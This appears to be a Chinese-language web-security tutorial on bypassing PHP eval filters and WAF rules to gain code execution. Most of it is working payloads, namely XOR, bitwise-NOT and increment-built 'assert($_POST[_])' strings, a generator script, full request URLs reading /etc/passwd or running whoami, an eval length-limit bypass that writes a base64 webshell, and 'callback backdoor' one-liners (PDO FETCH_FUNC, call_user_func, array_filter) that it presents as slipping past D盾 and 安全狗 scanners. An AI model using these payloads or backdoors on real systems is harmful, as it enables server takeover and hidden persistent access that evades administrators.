如：异或`?`和`~`后得到`A`

 

```CLIKE
字符：?         ASCII码：63           二进制：  00‭11 1111‬
字符：~         ASCII码：126          二进制：  0111 1110‬
异或规则：
1   XOR   0   =   1
0   XOR   1   =   1
0   XOR   0   =   0
1   XOR   1   =   0
上述两个字符异或得到 二进制：  0100 0001
该二进制的十进制也就是：65
对应的ASCII码是：A
<?php
highlight_file(__FILE__);
error_reporting(0);
if(preg_match('/[a-z0-9]/is', $_GET['shell'])){
	echo "hacker!!";
}else{
	eval($_GET['shell']);
}
var_dump($_GET['shell']);
?>
```

过滤了`所有ASCII字符里的英文字母和数字`,但是ASCII码中还有很多`字母数字之外的字符`，利用这些字符进行异或可以得到我们想要的字符

取ASCII表种非字母数字的其他字符，要注意有些字符可能会影响整个语句执行，所以要去掉如：反引号，单引号

脚本如下：

```python
# -*- coding: utf-8 -*-

payload = "assert"
strlist = [0, 1, 2, 3, 4, 5, 6, 7, 8, 9, 10, 11, 12, 13, 14, 15, 16, 17, 18, 19, 20, 21, 22, 23, 24, 25, 26, 27, 28, 29, 30, 31, 32, 33, 35, 36, 37, 38, 40, 41, 42, 43, 44, 45, 46, 47, 58, 59, 60, 61, 62, 63, 64, 91, 93, 94, 95, 96, 123, 124, 125, 126, 127]
#strlist是ascii表中所有非字母数字的字符十进制
str1,str2 = '',''

for char in payload:
    for i in strlist:
        for j in strlist:
            if(i ^ j == ord(char)):
                i = '%{:0>2}'.format(hex(i)[2:])  //不满足两个的前面补0
                j = '%{:0>2}'.format(hex(j)[2:])
                print("('{0}'^'{1}')".format(i,j),end=".")  //将换行\n换成字符.  方便直接拼接输出
                break
        else:
            continue
        break
```

使用脚本对每个字母进行转换，然后拼接

```php
$_=('%01'^'%60').('%08'^'%7b').('%08'^'%7b').('%05'^'%60').('%09'^'%7b').('%08'^'%7c');  //这里的%08是放在URL里的，传送到后端会被服务器URL解码，实际后端应用收到的是ascii数字表示的特殊字符
//$_='assert';
$__='_'.('%07'^'%40').('%05'^'%40').('%09'^'%5d');
//$__='_GET';
#$__ = ("#" ^ "|") . ("." ^ "~") . ("/" ^ "`") . ("|" ^ "/") . ("{" ^ "/"); $__则是'_POST'
$___=$$__;
//$___='$_GET';  **这里很重要**
$_($___[_]);
//assert($_GET[_]);
```

payload

```php
$_=('%01'^'%60').('%08'^'%7b').('%08'^'%7b').('%05'^'%60').('%09'^'%7b').('%08'^'%7c');$__='_'.('%07'^'%40').('%05'^'%40').('%09'^'%5d');$___=$$__;$_($___[_]);&_=phpinfo();
```

一次代码执行只能得到我们想要执行语句的字符串，并不能执行语句，所以需要执行两次代码执行

具体请求为：

```
http://ip:port/…….php?shell=$_=('%01'^'%60').('%08'^'%7b').('%08'^'%7b').('%05'^'%60').('%09'^'%7b').('%08'^'%7c');$__='_'.('%07'^'%40').('%05'^'%40').('%09'^'%5d');$___=$$__;$_($___[_]);&_=phpinfo();   //后端值检测shell的内容，如果还担心可以把后面也异或编码了
```

当过滤字符的范围没有那么大，或者只是过滤关键字的时候

```php
<?php
highlight_file(__FILE__);
error_reporting(0);
if(preg_match('/system/is', $_GET['shell'])){
	echo "hacker!!";
}else{
	eval($_GET['shell']);
}
var_dump($_GET['shell']);
?>
```

可以使用如下脚本：

```python
# -*- coding: utf-8 -*-
import string

char = string.printable
cmd = 'system'
tmp1,tmp2 = '',''
for res in cmd:
    for i in char:
        for j in char:
            if(ord(i)^ord(j) == ord(res)):
                tmp1 += i
                tmp2 += j
                break
        else:
            continue
        break
print("('{}'^'{}')".format(tmp1,tmp2))
>>php -r "var_dump('000000'^'CICDU]');"
Command line code:1:
string(6) "system"
```

具体发送的请求

```
http://ip:port/…….php?shell=('000000'^'CICDU]')('whoami');
```

其他可能的payload:

```
${%ff%ff%ff%ff^%a0%b8%ba%ab}{%ff}();&%ff=phpinfo
//${_GET}{%ff}();&%ff=phpinfo
```

### URL编码取反绕过

适用PHP版本：无限制

当`PHP>=7`时，可以直接利用取反构造payload

如

```
>>php -r "var_dump(urlencode(~'phpinfo'));"
Command line code:1:
string(21) "%8F%97%8F%96%91%99%90"   //%90 里的90是unicode(ASCII)编码后的字符
```

所以表示phpinfo可以是：

```
(~%8F%97%8F%96%91%99%90)();
#phpinfo();
```

对于限制所以ASCII字母和数字

```php
<?php
highlight_file(__FILE__);
error_reporting(0);
if(preg_match('/[a-z0-9]/is', $_GET['shell'])){
	echo "hacker!!";
}else{
	eval($_GET['shell']);
}
var_dump($_GET['shell']);
?>
```

可以利用取反

```
http://ip:port/…….php?shell=(~%8F%97%8F%96%91%99%90)();    
```

有参数的payload

```
>>php -r "var_dump(urlencode(~'system'));"
Command line code:1:
string(18) "%8C%86%8C%8B%9A%92"
>>php -r "var_dump(urlencode(~'whoami'));"
Command line code:1:
string(18) "%88%97%90%9E%92%96"
```

使用payload

```
(~%8C%86%8C%8B%9A%92)(~%88%97%90%9E%92%96);
#system('whoami');
```

发送请求

```
http://ip:port/…….php?shell=(~%8F%97%8F%96%91%99%90)(~%88%97%90%9E%92%96);
```

当`5<=PHP<=7.0.9`时，需要再执行一次构造出来的字符，所以参考上面那种`异或拼接`的方法

```clike
$_=(~'%9E%8C%8C%9A%8D%8B');
#$_='assert';
$__='_'.(~'%AF%B0%AC%AB');
#$__='_POST';
#$__ = ("#" ^ "|") . ("." ^ "~") . ("/" ^ "`") . ("|" ^ "/") . ("{" ^ "/");echo $__;会显示_POST
$___=$$__;
#$___='$_POST';
$_($___[_]);
#assert($_POST[_]);
```

请求的url为

```
POST
	url http://ip:port/…….php?shell=$_=(~'%9E%8C%8C%9A%8D%8B');$__='_'.(~'%AF%B0%AC%AB');$___=$$__;$_($___[_]);
	
	data  _=phpinfo()
```

### PHP利用注释符

```clike
<?php@${$__}[!$_](${$__}[$_]);@$_="s"."s"./*-/*-*/"e"./*-/*-*/"r";@$_=/*-/*-*/"a"./*-/*-*/$_./*-/*-*/"t";@$_/*-/*-*/($/*-/*-*/{"_P"./*-/*-*/"OS"./*-/*-*/"T"}[/*-/*-*/0/*-/*-*/-/*-/*-*/2/*-/*-*/-/*-/*-*/5/*-/*-*/]);    ?>
```

## 远程利用PHP绕过Filter以及WAF规则

利用PHP绕过过滤器（filter）、输入限制以及WAF规则，最终实现远程代码执行。

漏洞脚本:主要用来复现远程代码执行漏洞场景(实际环境中我们可能需要经过一番努力才能获得该条件)

```php
<?php
	if(preg_match('/system|exec|passthru/',$_GET['code'])){
    	echo "invaild syntax";'
    }else{
    	eval($_GET['code']);
    }
?>
```

第5行代码很危险，第二行尝试拦截诸如system、exec或者passthru之类的函数(PHP中还有许多函数可以执行系统命令)，这个脚本运行在部署了WAF的WEB服务器上，第二个运行在ModSecurity OWASP CRS3保护之下。

直接尝试使用system()读取/etc/passwd，?code=system(“cat /etc/passwd”);会被WAF拦截，WAF会拦截请求可能是因为存在/etc/passwd特征，可以只用未初始化变量`cat /etc$u/passwd`之类的方法轻松绕过这个限制

### PHP字符串转义表示法

PHP官方文档中关于字符串的[描述](https://secure.php.net/manual/en/language.types.string.php)

- 以八进制表示的`\[0–7]{1,3}`转义字符会自动适配byte（如`"\400" == "\000"`）
- 以十六进制的`\x[0–9A-Fa-f]{1,2}`转义字符表示法（如`“\x41"`）
- 以Unicode表示的`\u{[0–9A-Fa-f]+}`字符，会输出为UTF-8字符串（自PHP 7.0.0引入该功能）

并非所有人都知道PHP中可以使用各种语法来表示字符串，再配合上“PHP可变函数（Variable function）”后，我们就拥有能绕过filter以及waf规则的一把瑞士军刀。

### PHP可变函数

PHP支持可变函数这种概念。这意味着如果一个变量名后面跟着圆括号，那么PHP将寻找与变量值同名的函数，并尝试执行该函数。除此之外，可变函数还可以用于实现回调、函数表等其他使用场景。

这意味着类似`$var(args);`和`"string"(args);`的语法实际上与`function(args);`等效。如果我们能使用变量或者字符串来调用函数，那么我们就可以在函数名中使用转义字符。

  

第3种语法是以十六进制表示的转义字符组合，PHP会将其转换成`"system"`字符串，然后使用`"ls"`作为参数调用`system`函数

这种技术并不适用于所有PHP函数，可变函数不能用于诸如[*echo*](https://php.net/manual/en/function.echo.php)、[*print*](https://php.net/manual/en/function.print.php)、[*unset()*](https://php.net/manual/en/function.unset.php)、[*isset()*](https://php.net/manual/en/function.isset.php)、[*empty()*](https://php.net/manual/en/function.empty.php)、[*include*](https://php.net/manual/en/function.include.php)以及[*require*](https://php.net/manual/en/function.require.php)、assert等语言结构，用户需要使用自己的封装函数，才能以可变函数方式使用这些结构。

php5中assert是一个函数，我们可以通过`$f='assert';$f(...);`这样的方法来动态执行任意代码。

但php7中，assert不再是函数，变成了一个语言结构（类似eval），不能再作为函数名动态执行代码，所以利用起来稍微复杂一点。但也无需过于担心，比如我们利用file_put_contents函数，同样可以用来getshell。

官网明明说assert在7里变成语言结构了，但7.0仍然能动态调用，同为语言结构的eval不能动态调用。

### 引号绕过代码限制

在存在漏洞的脚本中排除类似双引号以及单引号之类的符号，可以在不使用双引号的情况下绕过代码限制

```php
<?php
	if(preg_match('/system|exec|passthru|[\"\']/',$_GET['code'])){
    	echo "invaild syntax";'
    }else{
    	eval($_GET['code']);
    }
?>
```

后端排除"和‘

PHP中不一定需要引号来表示字符串。PHP支持声明元素的类型，比如`$a = (string)foo;`，在这种情况下，`$a`就包含字符串`"foo"`，此外，如果不显示声明类型，那么PHP会将圆括号内的数据当成字符串来处理

 

在这种情况下，有两种方法可以绕过新的过滤器：

- 第一种是使用类似`(system)(ls);`之类的语法，但在`code`参数中我们不能使用”system”字符串，因此我们可以通过拼接字符串（如`(sy.(st).em)(ls);`）来完成该任务。
- 第二种是使用`$_GET`变量。如果我发送类似`?a=system&b=ls&code=$_GET[a]($_GET[b]);`之类的请求，那么`$_GET[a]`就会被替代为字符串”system”，并且`$_GET[b]`会被替换为字符串”ls”，最终我可以绕过所有过滤器(多次传参绕过)

 

请求：

```clike
?a=system&b=cat+/etc&c=/passwd&code=$_GET[a]($_GET[b].$_GET[c]);    在url的query参数里的字符串可以不加"或者'   后端解析时会将其进行默认分配
```

可以在函数名和参数内插入注释（这种方法在绕过某些WAF规则集方面非常有用，这些规则集会拦截特定的PHP函数名）。以下语法都是有效语法：

 

### get_defined_functions

这个PHP函数会返回一个多维数组，其中包含已定义的所有函数列表，包括内部函数及用户定义的函数。我们可以通过`$arr["internal"]`访问内部函数，通过`$arr["user"]`访问用户定义的函数

参照上文的PHP代码执行中出现过滤限制的绕过方法->内置函数访问绕过

### 字符数组

可以将PHP中的每个字符串当成一组字符来使用（基本上与Python相同），并且我们可以使用`$string[2]`或者`$string[-3]`语法来引用单个字符。这种方法也有可能绕过基于PHP函数名的防护规则。

可以使用`$a="elmsty/ ";`这个字符串构造出`system("ls /tmp");`语句

 

如果足够幸运，就可以在脚本文件名中找到我们所需的所有字符。利用这种方法，我们可以使用类似`(__FILE__)[2]`之类的语句获取所需的所有字符：

`__FILE__`：表示php代码文件   可以通过它来获取想要的字符

 

 

### OWASP CRS3

部署OWASP CRS3后，面临的形式更加严峻。首先，利用前文介绍的技术，我们只能绕过Paranoia Level 1，因为Paranoia Level 1只是CRS3规则中的一部分子集，并且这一级的功能是用来避免出现误报情况。在Paranoia Level 2形式更加艰难，因为此时部署了942430规则：“Restricted SQL Character Anomaly Detection (args): # of special characters exceeded”。这里只能做的只是执行不带参数的单条命令，如`ls`、`whoami`等，不能执行在CloudFlare WAF防护环境中可用的`system(“cat /etc/passwd”)`命令：

```clike
(sy.(st).em)(ls.(c.(h).r)(32).(c.(h).r)(47));
```

 

 

其他相关知识：

Web Application Firewall Evasion Techniques #1

https://medium.com/secjuice/waf-evasion-techniques-718026d693d8

Web Application Firewall Evasion Techniques #2

https://medium.com/secjuice/web-application-firewall-waf-evasion-techniques-2-125995f3e7b0

Web Application Firewall Evasion Techniques #3

https://www.secjuice.com/web-application-firewall-waf-evasion/

## eval长度限制绕过 && PHP5.6新特性

eval(xxx)，xxx长度限制为16个字符，而且不能用eval或assert，怎么执行命令。

```php
<?php
$param = $_REQUEST['param'];
if(strlen($param)<17 && stripos($param,'eval') === false && stripos($param,'assert') === false) {
  eval($param);
}
?>
```

### 命令执行的利用

利用命令执行来绕过限制，最短的是：

```
param=`$_GET[1]`;&1=bash
```

稍长一点的可以用exec：

```
param=exec($_GET[1]);
```

其他命令执行的利用见上文`允许命令执行的函数`

### 远程文件包含的利用

正常文件包含`include $_GET[1];`，这个刚好17个字符，超了一位。

不过，其实`include$_GET[1];`也是可以运行的，中间的空格可以不要。

这也是一个思路，但限制就是需要开启远程文件包含，但这个选项默认是关闭的。

### 本地文件包含利用（file_put_contents）

利用file_put_contents可以将字符一个个地写入一个文件中，大概请求如下：

```
param=$_GET[a](N,a,8);&a=file_put_contents
```

file_put_contents的第一个参数是文件名，我传入N。PHP会认为N是一个常量，但我之前并没有定义这个常量，于是PHP就会把它转换成字符串'N'；第二个参数是要写入的数据，a也被转换成字符串'a'；第三个参数是flag，当flag=8的时候内容会追加在文件末尾，而不是覆盖。

````
php源码 ext/standard/file.h 定义的
```
#define PHP_FILE_USE_INCLUDE_PATH 1
#define PHP_FILE_IGNORE_NEW_LINES 2
#define PHP_FILE_SKIP_EMPTY_LINES 4
#define PHP_FILE_APPEND 8
#define PHP_FILE_NO_DEFAULT_CONTEXT 16
```
PHP_FILE_APPEND是8
````

除了file_put_contents，error_log函数效果也类似。

但这个方法有个问题，就是file_put_contents第二个参数如果是符号，就会导致PHP出错，比如`param=$_GET[a](N,<,8);&a=file_put_contents`。但如果要写webshell的话，“<”等符号又是必不可少的。

于是微博上 @买贴膜的 想出一个办法，每次向文件'N'中写入一个字母或数字，最后构成一个base64字符串，再包含的时候使用php://filter对base64进行解码即可。

最后请求如下：

```PHP
# 每次写入一个字符：PD9waHAgZXZhbCgkX1BPU1RbOV0pOw
# 最后包含
param=include$_GET[0];&0=php://filter/read=convert.base64-decode/resource=N
```

### 本地日志包含

这是 @lem0n 师傅想到的一个方法，首先通过各种方法找到web日志，然后利用上面说的include的方式来包含之。

```
param=include$_GET[a];&a=/home/u244201241/.logs/php_error.log
```

如果找不到web日志，利用条件竞争的方法，包含tmp文件也可以，有心的同学可以试试。

### 利用变长参数特性展开数组

变长参数是PHP5.6新引入的特性，文档在此： http://php.net/manual/zh/migration56.new-features.php

只有数字索引数组才能作为变长参数数组

和Python中的`**kwargs`，类似，在PHP中可以使用 `func(...$arr)`这样的方式，将`$arr`数组展开成多个参数，传入func函数。

再结合我曾提到过的回调后门（ https://www.leavesongs.com/PENETRATION/php-callback-backdoor.html ），即可构造一个完美的利用，数据包如下：

```clike
POST /test.php?1[]=test&1[]=var_dump($_SERVER);&2=assert HTTP/1.1
Host: localhost:8081
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 22

param=usort(...$_GET);
```

GET变量被展开成两个参数`['test', 'phpinfo();']`和`assert`，传入usort函数。usort函数的第二个参数是一个回调函数`assert`，其调用了第一个参数中的`phpinfo();`。修改`phpinfo();`为webshell即可。

## 不包含数字和字母的webshell

存在漏洞利用的代码(对此漏洞的利用也可以用用于过WAF的关键字过滤):

```php
<?php
if(!preg_match('/[a-z0-9]/is',$_GET['shell'])) {
  eval($_GET['shell']);
}
```

思路:将非字母、数字的字符经过各种变换，最后能构造出a-z中任意一个字符。然后再利用PHP允许动态函数执行的特点，拼接处一个函数名，如“assert”，然后动态执行之即可

php5中assert是一个函数，我们可以通过`$f='assert';$f(...);`这样的方法来动态执行任意代码。

但php7中，assert不再是函数，变成了一个语言结构（类似eval），不能再作为函数名动态执行代码，所以利用起来稍微复杂一点。但也无需过于担心，比如我们利用file_put_contents函数，同样可以用来getshell。

此处使用PHP5作为环境

### 异或操作

参照上文PHP代码执行中出现的过滤限制的绕过方法->异或绕过

在PHP中，两个字符串执行异或操作以后，得到的还是一个字符串。所以，我们想得到a-z中某个字母，就找到某两个非字母、数字的字符，他们的异或结果是这个字母即可。

不存在的打印字符，用url编码表示即可

```php
<?php
$_=('%01'^'`').('%13'^'`').('%13'^'`').('%05'^'`').('%12'^'`').('%14'^'`'); // $_='assert';
$__='_'.('%0D'^']').('%2F'^'`').('%0E'^']').('%09'^']'); // $__='_POST';
$___=$$__;
$_($___[_]); // assert($_POST[_]);
```

### 取反操作

```clike
$a = ~("瞰"{2});
syntax error, unexpected '{' in 1.php on line 89
$___="瞰";
$a = ~($___{2});
PHP5下不能直接`"瞰"{2}`，这是PHP7下的语法
```

参照上文PHP代码执行中出现的过滤限制的绕过方法->URL编码取反绕过

方法一使用的是位运算里的“异或”，方法二使用的是位运算里的“取反”。

方法二利用的是UTF-8编码的某个汉字，并将其中某个字符取出来，比如`'和'{2}`的结果是`"\x8c"`，其取反即为字母`s`：

 

因为要获取`'和'{2}`，就必须有数字2(但是2在过滤名单里)。而PHP由于弱类型这个特性，true的值为1，故`true+true==2`，也就是`('>'>'<')+('>'>'<')==2`。

```clike
<?php
$__=('>'>'<')+('>'>'<');  //2
$_=$__/$__;  //1

$____='';
$___="瞰";$____.=~($___{$_}); //a
$___="和";$____.=~($___{$__});//s
$___="和";$____.=~($___{$__});//s
$___="的";$____.=~($___{$_});//e
$___="半";$____.=~($___{$_});//r
$___="始";$____.=~($___{$__});//t
//$____='assert'
$_____='_';
$___="俯";$_____.=~($___{$__});//P
$___="瞰";$_____.=~($___{$__});//O
$___="次";$_____.=~($___{$_});//S
$___="站";$_____.=~($___{$_});//T

$_=$$_____;//$_='$_POST'
$____($_[$__]);
```

### 自增操作

递增／递减运算符[PHP: 递增／递减运算符 - Manual](https://www.php.net/manual/zh/language.operators.increment.php)

PHP 支持 C 风格的前／后递增与递减运算符。

> **注意**: 递增／递减运算符不影响布尔值。递减 **`null`** 值也没有效果，但是递增 **`null`** 的结果是 `1`。

| 例子 | 名称 | 效果                                       |
| :--- | :--- | :----------------------------------------- |
| ++$a | 前加 | $a 的值加一，然后返回 $a。                 |
| $a++ | 后加 | 返回 $a，然后将 $a 的值加一(返回的a不加)。 |
| --$a | 前减 | $a 的值减一， 然后返回 $a。                |
| $a-- | 后减 | 返回 $a，然后将 $a 的值减一(返回的a不减)。 |

在处理字符变量的算数运算时，PHP 沿袭了 Perl 的习惯，而非 C 的。例如，在 Perl 中 `$a = 'Z'; $a++;` 将把 `$a` 变成`'AA'`，而在 C 中，`a = 'Z'; a++;` 将把 `a` 变成 `'['`（`'Z'` 的 ASCII 值是 90，`'['` 的 ASCII 值是 91）。**注意字符变量只能递增，不能递减，并且只支持纯 ASCII 字母数字（a-z、A-Z 和 0-9）。**递增/递减其他字符变量则无效，原字符串没有变化。

递增或递减布尔值没有效果。

`'a'++ => 'b'`，`'b'++ => 'c'`... 所以，我们只要能拿到一个变量，其值为`a`，通过自增操作即可获得a-z中所有字符。

数组（Array）的第一个字母就是大写A，而且第4个字母是小写a。也就是说，我们可以同时拿到小写和大写A，等于我们就可以拿到a-z和A-Z的所有字母。

在PHP中，如果强制连接数组和字符串的话或者强制转换空数组为字符串，数组将被转换成字符串，其值为`Array`：

再取这个字符串的第一个字母，就可以获得'A'了。

 

PHP函数是大小写不敏感的，所以我们最终执行的是`ASSERT($_POST[_])`，无需获取小写a：

但是这样符号熵值很大一看就有问题，正常代码怎么可能不包含字母，D盾报警很正常。

```php
<?php
$_=[];
$_=@"$_"; // $_='Array';
$_=$_['!'=='@']; // $_=$_[0];   PHP的弱特性  false==0   true==1
$___=$_; // A
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;
$___.=$__; // S
$___.=$__; // S
$__=$_;
$__++;$__++;$__++;$__++; // E 
$___.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // R
$___.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // T
$___.=$__;
//$___='ASSERT'
$____='_';
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // P
$____.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // O
$____.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // S
$____.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // T
$____.=$__;
//$____='POST'
$_=$$____;
$___($_[_]); // ASSERT($_POST[_]);

#其他  以下为JavaScript的无数字和字母实现alert操作
ﾟωﾟﾉ= /｀ｍ´）ﾉ ~┻━┻ //*´∇｀*/ ['_']; o=(ﾟｰﾟ) =_=3; c=(ﾟΘﾟ) =(ﾟｰﾟ)-(ﾟｰﾟ); (ﾟДﾟ) =(ﾟΘﾟ)= (o^_^o)/ (o^_^o);(ﾟДﾟ)={ﾟΘﾟ: '_' ,ﾟωﾟﾉ : ((ﾟωﾟﾉ==3) +'_') [ﾟΘﾟ] ,ﾟｰﾟﾉ :(ﾟωﾟﾉ+ '_')[o^_^o -(ﾟΘﾟ)] ,ﾟДﾟﾉ:((ﾟｰﾟ==3) +'_')[ﾟｰﾟ] }; (ﾟДﾟ) [ﾟΘﾟ] =((ﾟωﾟﾉ==3) +'_') [c^_^o];(ﾟДﾟ) ['c'] = ((ﾟДﾟ)+'_') [ (ﾟｰﾟ)+(ﾟｰﾟ)-(ﾟΘﾟ) ];(ﾟДﾟ) ['o'] = ((ﾟДﾟ)+'_') [ﾟΘﾟ];(ﾟoﾟ)=(ﾟДﾟ) ['c']+(ﾟДﾟ) ['o']+(ﾟωﾟﾉ +'_')[ﾟΘﾟ]+ ((ﾟωﾟﾉ==3) +'_') [ﾟｰﾟ] + ((ﾟДﾟ) +'_') [(ﾟｰﾟ)+(ﾟｰﾟ)]+ ((ﾟｰﾟ==3) +'_') [ﾟΘﾟ]+((ﾟｰﾟ==3) +'_') [(ﾟｰﾟ) - (ﾟΘﾟ)]+(ﾟДﾟ) ['c']+((ﾟДﾟ)+'_') [(ﾟｰﾟ)+(ﾟｰﾟ)]+ (ﾟДﾟ) ['o']+((ﾟｰﾟ==3) +'_') [ﾟΘﾟ];(ﾟДﾟ) ['_'] =(o^_^o) [ﾟoﾟ] [ﾟoﾟ];(ﾟεﾟ)=((ﾟｰﾟ==3) +'_') [ﾟΘﾟ]+ (ﾟДﾟ) .ﾟДﾟﾉ+((ﾟДﾟ)+'_') [(ﾟｰﾟ) + (ﾟｰﾟ)]+((ﾟｰﾟ==3) +'_') [o^_^o -ﾟΘﾟ]+((ﾟｰﾟ==3) +'_') [ﾟΘﾟ]+ (ﾟωﾟﾉ +'_') [ﾟΘﾟ]; (ﾟｰﾟ)+=(ﾟΘﾟ); (ﾟДﾟ)[ﾟεﾟ]='\\'; (ﾟДﾟ).ﾟΘﾟﾉ=(ﾟДﾟ+ ﾟｰﾟ)[o^_^o -(ﾟΘﾟ)];(oﾟｰﾟo)=(ﾟωﾟﾉ +'_')[c^_^o];(ﾟДﾟ) [ﾟoﾟ]='\"';(ﾟДﾟ) ['_'] ( (ﾟДﾟ) ['_'] (ﾟεﾟ+(ﾟДﾟ)[ﾟoﾟ]+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ (ﾟｰﾟ)+ (ﾟΘﾟ)+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ ((ﾟｰﾟ) + (ﾟΘﾟ))+ (ﾟｰﾟ)+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ (ﾟｰﾟ)+ ((ﾟｰﾟ) + (ﾟΘﾟ))+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ ((o^_^o) +(o^_^o))+ ((o^_^o) - (ﾟΘﾟ))+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ ((o^_^o) +(o^_^o))+ (ﾟｰﾟ)+ (ﾟДﾟ)[ﾟεﾟ]+((ﾟｰﾟ) + (ﾟΘﾟ))+ (c^_^o)+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟｰﾟ)+ ((o^_^o) - (ﾟΘﾟ))+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ (ﾟΘﾟ)+ (c^_^o)+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ (ﾟｰﾟ)+ ((ﾟｰﾟ) + (ﾟΘﾟ))+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ ((ﾟｰﾟ) + (ﾟΘﾟ))+ (ﾟｰﾟ)+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ ((ﾟｰﾟ) + (ﾟΘﾟ))+ (ﾟｰﾟ)+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ ((ﾟｰﾟ) + (ﾟΘﾟ))+ ((ﾟｰﾟ) + (o^_^o))+ (ﾟДﾟ)[ﾟεﾟ]+((ﾟｰﾟ) + (ﾟΘﾟ))+ (ﾟｰﾟ)+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟｰﾟ)+ (c^_^o)+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ (ﾟΘﾟ)+ ((o^_^o) - (ﾟΘﾟ))+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ (ﾟｰﾟ)+ (ﾟΘﾟ)+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ ((o^_^o) +(o^_^o))+ ((o^_^o) +(o^_^o))+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ (ﾟｰﾟ)+ (ﾟΘﾟ)+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ ((o^_^o) - (ﾟΘﾟ))+ (o^_^o)+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ (ﾟｰﾟ)+ (o^_^o)+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ ((o^_^o) +(o^_^o))+ ((o^_^o) - (ﾟΘﾟ))+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ ((ﾟｰﾟ) + (ﾟΘﾟ))+ (ﾟΘﾟ)+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ ((o^_^o) +(o^_^o))+ (c^_^o)+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ ((o^_^o) +(o^_^o))+ (ﾟｰﾟ)+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟｰﾟ)+ ((o^_^o) - (ﾟΘﾟ))+ (ﾟДﾟ)[ﾟεﾟ]+((ﾟｰﾟ) + (ﾟΘﾟ))+ (ﾟΘﾟ)+ (ﾟДﾟ)[ﾟoﾟ]) (ﾟΘﾟ)) ('_');
```

 


## PHP回调后门

注意可能有的回调后门无法直接执行字符串代码，需要套上一层eval

大多数一句话木马都是构造一些动态函数，如`$_GET['func']($_REQUEST['pass'])`之类的方法。万变不离其宗，但这种方法，虽然狗盾可能看不出来，但人肉眼其实很容易发现这类后门的。

下文尝试不需要动态函数、不用eval、不含敏感函数、免杀免拦截的一句话木马

### 用PDO来执行代码

```php
$db=new PDO('sqlite:memory');
$st=$db->query("select 'phpinfo()'");
$re=$st->fetchAll(PDO::FETCH_FUNC,'assert');
```

利用PDO::FETCH_FUNC特性留后门

翻手册的时候发现fetch_argument的参数PDO::FETCH_FUNC可以回调一个函数，用这东西留个后门应该可以迷惑部分管理员。

适用于：(PHP 5 >= 5.1.0, PECL pdo >= 0.1.0)。

```php
<?php
if(($db = @new PDO('sqlite::memory:')) && ($sql = strrev('TSOP_')) && ($sql = $$sql)) { //$sql  变为"_POST"
	$stmt = @$db->query("SELECT '{$sql[b4dboy]}'");//获取POST参数 b4dboy   攻击者利用此参数传递命令
	$result = @$stmt->fetchAll(PDO::FETCH_FUNC, str_rot13('nffreg'));
}
?>
```

**php中包含回调函数参数的函数，具有做后门的潜质。**

这类webshell起个名字：回调后门

### call_user_func

php中call_user_func是执行回调函数的标准方法，这也是一个比较老的后门了：

```clike
call_user_func('assert', $_REQUEST['pass']);  // 安全狗检测
```

assert直接作为回调函数，然后`$_REQUEST['pass']`作为assert的参数调用。

可php的函数库是很丰富的，只要简单改下函数安全狗就不杀了：

```clike
call_user_func_array('assert', array($_REQUEST['pass'])); //D盾检测
```

call_user_func_array函数，和call_user_func类似，只是第二个参数可以传入参数列表组成的数组。

这种传统的回调后门，已经被一些安全厂商盯上了，存在被查杀的风险。

### 数组操作造成的单参数回调后门

带有回调参数的函数绝不止上面说的两个。这些含有回调（callable类型）参数的函数，其实都有做“回调后门”的潜力。

```php
<?php
$e = $_REQUEST['e'];
$arr = array($_POST['pass'],);
array_filter($arr, base64_decode($e));    //D盾有感应，报等级3
```

array_filter函数是将数组中所有元素遍历并用指定函数处理过滤用的

 

请求

```
url
	http://ip:port/…….php?e=YXNzZXJ0
data
	pass=phpinfo();
```

类似array_filter，array_map也有同样功效：

```php
<?php
$e = $_REQUEST['e'];
$arr = array($_POST['pass'],);
array_map(base64_decode($e), $arr);  //依旧被D盾查杀
```

### 单参数后门

preg_replace、三参数后门虽然好用，但/e模式php5.5以后就废弃了

